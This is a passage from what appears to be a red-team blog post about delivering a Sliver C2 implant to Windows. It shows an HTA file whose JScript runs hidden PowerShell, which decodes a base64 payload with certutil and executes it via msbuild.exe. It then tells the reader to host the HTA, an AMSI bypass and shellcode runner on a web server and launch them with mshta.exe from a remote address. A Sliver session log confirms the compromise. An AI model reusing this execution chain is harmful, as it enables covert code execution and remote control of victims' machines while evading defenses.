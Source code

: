 ```jscript
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var re = shell.Run("powershell -windowstyle hidden echo PFByb2plY...etc  > c:\\windows\\temp\\enc3.txt;certutil -decode c:\\windows\\temp\\enc3.txt c:\\windows\\temp\\d.xml;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\windows\\temp\\d.xml")
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
- host the hta file as well as the amsi bypass and the shellcode runner scripts on a web server, and call them using this command :
```
mshta.exe http://192.168.1.11/htafile.hta
```
- check your Sliver console ! 
```C#
[*] Session 762de3f2 STATUTORY_FIGHT - 192.168.1.3:49574 (DESKTOP-BPD57DK) - windows/amd64 - Wed, 12 Apr 2023 13:55:31 EDT
```


# Conclusion

- i can not recommend this tool enough , its a long jour

Visit the [Hugo](https://gohugo.io) website!
